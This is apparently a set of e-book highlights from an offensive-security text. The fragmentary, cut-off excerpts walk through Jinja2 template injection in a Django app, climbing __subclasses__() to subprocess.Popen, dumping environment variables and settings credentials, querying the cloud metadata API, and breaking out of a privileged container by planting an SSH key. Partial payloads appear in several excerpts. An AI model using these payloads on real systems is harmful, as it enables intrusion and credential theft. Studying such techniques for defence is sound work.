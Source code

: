	- payload that works on both Flask and Django Jinja2 templates, and it’s a good one: request.environ. In both frameworks, this Python object holds information about the current request: HTTP method, headers, user data, and, most importantly, environment variables loaded by the app. # Payload email=davidshaw@pokemail.net& ([Location 2332](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2332))
	- templating engine with the more powerful Jinja2 templating framework. This is lucky for us, because while Jinja2 supports a subset of Python expressions and operations that give it the edge in terms of performance and productivity, this flexibility comes at a steep price: we can ([Location 2341](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2341))
	- template, so we can naturally retrieve it. The os module? Highly unlikely. But, and it is a most fortunate but, most modern programming languages provide us with some degree of introspection and reflection—reflection being the ability of a program, object, or class to examine itself, including listing its own properties and methods, changing its ([Location 2348](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2348))
	- email=davidshaw@pokemail.net&user={{request__class__ }}... <class 'django.core.handlers.wsgi.WSGIRequest'> That class is itself a child class of a higher Python object called django.http.request.HttpRequest. We did not even have to read the docs to find this out; it’s written in the object itself, inside the __base__ ([Location 2355](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2355))
	- object. In and of itself, the object class is useless, but like all other classes, it contains references to its subclasses as well. So after climbing up the chain, it’s now time to go down using the __subclasses__ method: # Payload email=davidshaw@pokemail.net&user={{request.__class__.__base__.__base__.__subclasses__()}}... ([Location 2364](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2364))
	- the object class and loaded by the current Python interpreter. NOTE In Python 3, all top classes are children of the object class. In Python 2, classes must explicitly inherit the object class. I hope you caught the subprocess.Popen class 1! This ([Location 2371](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2371))
	- couple of seconds later, we receive an email spilling out the environment variables of the Python process running on the machine: PWD=/opt/django/surveysapp PYTHON_GET_PIP_SHA256=8d412752ae26b46a39a201ec618ef9ef7656c5b2d8529cdcbe60cd70dc94f40c KUBERNETES_SERVICE_PORT_HTTPS=443 HOME=/root--snip-- ([Location 2380](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2380))
	- surveysapp, and the settings file is usually one directory below that (with the same name). In Listing 6-1, we try to access it. # Payload email=davidshaw@pokemail.net&user={{request.__class__.__base__.__base__.__subclasses__() ([Location 2386](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2386))
	- results to candidates. These credentials will probably have a very narrow scope of action, like sending emails. We can try to be creative and phish some admins using this newly acquired capability, but right now, these credentials will serve a more pressing goal: confirming ([Location 2397](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2397))
	- runccd&", shell=True, stdout=-1).communicate()[0]}}...<empty> Some sort of filter seems to block HTTP requests going to the outside world. Fair enough. We’ll try going in the opposite direction and query the metadata API 169.254.169.254. ([Location 2420](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2420))
	- S3 bucket to bypass the network ban, but if you recall, we already met an application that was not subject to these restrictions: the demo application from Chapter 5. We could have perfectly leveraged the SSRF vulnerability we found earlier to design a quasi-duplex communication channel using the following ([Location 2565](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2565))
	- user “root” in this namespace is mapped to some random unprivileged user ID on the host. A quick way to corroborate our hypothesis is to look more closely at the process bearing the PID number 1: examine its command line attributes, cgroups, and mounted folders. We can explore these different ([Location 2578](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2578))
	- belonging to our narrow and very limited namespace. One of the very first reflexes to have when landing in a container is to check whether it is running in privileged mode. Checking for Privileged Mode In privileged execution mode, Docker ([Location 2593](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2593))
	- mode, we can just mount the main partition, slip an SSH key in any home folder, and open a new admin shell on the host. Here’s a quick proof of concept of just that in the lab for illustration purposes: # Demo lab root@DemoContainer:/# ([Location 2599](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=2599))